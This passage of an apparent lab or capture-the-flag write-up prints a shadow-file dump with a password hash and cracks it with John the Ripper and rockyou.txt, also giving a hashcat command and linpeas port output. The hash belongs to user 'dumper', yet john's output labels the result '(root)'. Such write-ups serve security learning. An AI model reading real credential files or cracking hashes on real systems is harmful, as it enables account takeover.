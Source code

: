 ``` bash
systemd-resolve:*:18898:0:99999:7:::
messagebus:*:18898:0:99999:7:::
sshd:*:18898:0:99999:7:::
systemd-coredump:!!:18898::::::
dumper:$6$8sDPsnEu5ZBa8bgE$EqxYjZuAYVmAqbusMGgx.NmwUwx0UcSVe2Z/YTRk1DqBOnxFxNbot7ktfzYxNALw8iDKXrkfV5.e54uTMgr371:19762:0:99999:7:::
shellinabox:*:19762:0:99999:7:::
```

Now we "just" need to crack it (we still cant use su)

``` bash
john hash --wordlist=/usr/share/wordlists/rockyou.txt

Warning: detected hash type "sha512crypt", but the string is also recognized as "HMAC-SHA256"
Use the "--format=HMAC-SHA256" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 256/256 AVX2 4x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
shadow123        (root)     
1g 0:00:00:01 DONE (2025-04-03 18:02) 0.6944g/s 5688p/s 5688c/s 5688C/s somebody..whitetiger
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

So it was shadow123

As a PoC using hashcat itd be:

``` bash
hashcat -m 1800 hash /usr/share/wordlists/rockyou.txt
```

In linpeas we saw:

``` bash
╔══════════╣ Active Ports

╚ [https://book.hacktricks.wiki/en/linux-hardening/privilege-escalation/index.html#op](https://book.hacktricks.wiki/en/linux-hardening/privilege-escalation/index.html#op)

en-ports                                                                            

tcp     LISTEN   0        128              0.0.0.0:4200          0.0.0.0:*      

tcp     LISTEN   0        100              0.0.0.0:21            0.0.0.0:*      

tcp     LISTEN   0        128            127.0.0.1:22            0.0.0.0:*      

tcp     LISTEN   0        128                    *:80                  *:*
```

Which means something is actually being locally served on port 22
